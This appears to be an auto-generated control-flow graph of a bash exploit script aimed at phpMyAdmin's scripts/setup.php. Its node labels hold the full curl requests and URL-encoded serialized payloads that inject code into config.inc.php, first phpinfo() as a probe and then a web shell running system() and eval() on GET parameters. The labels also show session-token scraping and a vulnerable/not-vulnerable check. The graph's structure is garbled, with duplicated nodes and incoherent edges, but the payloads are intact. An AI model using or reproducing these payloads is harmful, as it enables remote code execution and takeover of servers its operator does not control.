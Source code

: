 digraph {
0 [label="BLK=\x1b[1 "];
0 -> 0
2 [label="DRED=\x1b[0 "];
2 -> 4 [label="N,"];
4 [label="DGRN=\x1b[0 "];
4 -> 6 [label="N,"];
6 [label="DBLU=\x1b[0 "];
6 -> 8 [label="N,"];
8 [label="DWHI=\x1b[0 "];
8 -> 10 [label="N,"];
10 [label="BLU=\x1b[1 "];
10 -> 12 [label="N,"];
12 [label="RES=\x1b[0m "];
12 -> 14 [label="N,"];
14 [label="[ -f /bin/curl ] "];
14 -> 16 [label="N,SC,N,if,"];
16 [label="curl=/bin/curl "];
16 -> 18 [label=";,then,"];
18 [label="[ -f /usr/bin/curl ] "];
18 -> 20 [label="N,else,SC,N,if,"];
20 [label="curl=/usr/bin/curl "];
20 -> 22 [label=";,then,"];
22 [label="[ -f /usr/local/bin/curl ] "];
22 -> 24 [label="N,else,SC,N,if,"];
24 [label="curl=/usr/local/bin/curl "];
24 -> 26 [label=";,then,"];
26 [label="curl=./curl "];
26 -> 28 [label="N,else,"];
28 [label="postdata=token=$1&action=save&configuration=a:1:{s:7:%22Servers%22%3ba:1:{i:0%3ba:6:{s:23:%22host%27]=%27%27%3b%20phpinfo%28%29%3b//%22%3bs:9:%22localhost%22%3bs:9:%22extension%22%3bs:6:%22mysqli%22%3bs:12:%22connect_type%22%3bs:3:%22tcp%22%3bs:8:%22compress%22%3bb:0%3bs:9:%22auth_type%22%3bs:6:%22config%22%3bs:4:%22user%22%3bs:4:%22root%22%3b}}}&eoltype=unix "];
28 -> 30 [label="N,fi,fi,fi,N,function,SC,{,"];
30 [label="postdata2=token=$1&action=save&configuration=a:1:{s:7:%22Servers%22%3ba:1:{i:0%3ba:6:{s:136:%22host%27%5d=%27%27%3b%20if($_GET%5b%27c%27%5d){echo%20%27%3cpre%3e%27%3bsystem($_GET%5b%27c%27%5d)%3becho%20%27%3c/pre%3e%27%3b}if($_GET%5b%27p%27%5d){echo%20%27%3cpre%3e%27%3beval($_GET%5b%27p%27%5d)%3becho%20%27%3c/pre%3e%27%3b}%3b//%22%3bs:9:%22localhost%22%3bs:9:%22extension%22%3bs:6:%22mysqli%22%3bs:12:%22connect_type%22%3bs:3:%22tcp%22%3bs:8:%22compress%22%3bb:0%3bs:9:%22auth_type%22%3bs:6:%22config%22%3bs:4:%22user%22%3bs:4:%22root%22%3b}}}&eoltype=unix "];
30 -> 32 [label="N,\n,"];
32 [label="flag=/tmp/$(basename $0).$RANDOM.phpinfo.flag.html "];
32 -> 68 [label="\n,"];
68 [label="basename $0 "];
68 -> 36 [label="N,N,"];
36 [label="$curl -ks -b $2 -d $postdata --url $3/scripts/setup.php /dev/null "];
36 -> 82 [label="\n,"];
82 [label="/dev/null "];
82 -> 82
40 [label="$curl -ks --url $3/config/config.inc.php "];
40 -> 42 [label="\n,SC,N,if,N,"];
42 [label="grep phpinfo() /dev/null "];
42 -> 82 [label="N,"];
82 [label="/dev/null "];
82 -> 82
46 [label="$curl -ks --url $3/config/config.inc.php $flag "];
46 -> 48 [label="then,"];
48 [label="$flag "];
48 -> 48
50 [label="$curl -ks -b $2 -d $postdata2 --url $3/scripts/setup.php /dev/null "];
50 -> 82 [label="\n,"];
82 [label="/dev/null "];
82 -> 82
54 [label="echo ${DBLU}  --> *Server: ${BLK}[${DGRN}$3${BLK}] ${DBLU}is: ${DRED}VULNERABLE${RES} "];
54 -> 56 [label="\n,"];
56 [label="echo $3/config/config.inc.php log /dev/null "];
56 -> 58 [label="\n,"];
58 [label="log "];
58 -> 58
82 [label="/dev/null "];
82 -> 82
62 [label="echo ${DBLU}  --> *Server: ${BLK}[${DGRN}$3${BLK}] ${DBLU}is: ${DGRN}NOT VULNERABLE${RES} "];
62 -> 99 [label="\n,else,"];
99 [label="exit "];
99 -> 66 [label="\n,"];
66 [label="cookiejar=/tmp/$(basename $0).$RANDOM.txt "];
66 -> 68 [label="\n,fi,\n,},"];
68 [label="basename $0 "];
68 -> 70 [label="N,N,"];
70 [label="token=`curl -ks -c $cookiejar --url \"$1/scripts/setup.php\" | grep \\\"token\\\" | head -n 1 | cut -d \\\" -f 12` "];
70 -> 70
72 [label="curl -ks -c $cookiejar --url $1/scripts/setup.php "];
72 -> 74 [label="N,N,N,"];
74 [label="grep \"token\" "];
74 -> 76 [label="N,"];
76 [label="head -n 1 "];
76 -> 78 [label="N,"];
78 [label="cut -d \" -f 12 "];
78 -> 80 [label="N,"];
80 [label="grep phpMyAdmin $cookiejar /dev/null "];
80 -> 82 [label="SC,N,if,"];
82 [label="/dev/null "];
82 -> 82
84 [label="length=`echo -n $token | wc -c` "];
84 -> 86 [label="then,"];
86 [label="echo -n $token "];
86 -> 88 [label="N,N,N,"];
88 [label="wc -c "];
88 -> 90 [label="N,"];
90 [label="[ $length -eq 32 ] "];
90 -> 92 [label="\n,SC,N,if,"];
92 [label="exploit $token $cookiejar $1 "];
92 -> 98 [label="then,"];
98 [label="echo ${DBLU}  --> *Server: ${BLK}[${DGRN}$1${BLK}] ${DBLU}is: ${DGRN}NOT VULNERABLE${RES} "];
98 -> 99 [label="else,"];
99 [label="exit "];
99 -> 98 [label="\n,"];
98 [label="echo ${DBLU}  --> *Server: ${BLK}[${DGRN}$1${BLK}] ${DBLU}is: ${DGRN}NOT VULNERABLE${RES} "];
98 -> 99 [label="\n,fi,\n,else,"];
}
